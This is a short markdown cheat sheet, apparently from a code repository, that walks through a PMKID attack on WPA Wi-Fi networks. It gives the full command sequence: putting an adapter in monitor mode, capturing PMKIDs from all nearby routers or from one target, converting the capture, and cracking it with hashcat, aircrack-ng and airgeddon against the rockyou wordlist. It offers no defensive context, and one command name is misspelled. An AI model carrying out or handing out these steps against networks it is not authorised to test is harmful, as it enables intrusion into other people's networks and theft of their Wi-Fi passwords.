 # PMKID Attack

Routers vulnerable: Enabled roaming feature.

Tools: hcxtools, aircrack-ng suite

## Steps:

#### 1) Install hcxtools

    sudo apt install hcxtools

#### 2) Set our Wi-Fi adapter or NIC in monitor mode

    sudo airmon-ng start wlan0

#### 3) Capture PMKIDs from all the routers around us

    sudo hxcdumptool -o demo -i wlan0mon --enable_status 5

#### 4) Convert pcapng file to hashcat format

    sudo hcxpcaptool -z pmkidhash demo

#### 5) Crack hash

    hashcat -m 16800 --force pmkidhash /usr/share/wordlists/rockyou.txt --show

## Capture only a single PMKID

#### 1) Capture the PMKID from a single AP

    sudo hcxdumptool -o output -i wlan0mon --enable_status=1 --filterlist_ap=target --filtermode=2

#### 2) Convert pcapng file to hashcat format

    sudo hcxpcaptool -z pmkidhash output

#### 3) Crack hash

    hashcat -m 16800 --force pmkidhash /usr/share/wordlists/rockyou.txt --show

### Alternate method: Convert pcapng to pcap, then crack using Aircrack-ng

#### 1) Convert pcapng to pcap

    sudo tcpdump -r demo -w demo.pcap

#### 2) Crack file

    sudo aircrack-ng demo.pcap -w /usr/share/wordlists/rockyou.txt
    11

## PMKID Attack using Airgeddon

#### 1) Run Airgeddon

    sudo airgeddon

#### 2) Choose option 5

    5

#### 3) Again, choose option 5

    5

#### 4) Select your target according to the number it is located

#### 5) Timeout in seconds (10-100)

#### 6) Store file as a .cap file

#### 7) Crack with the intrgrated aircrack-ng

    1

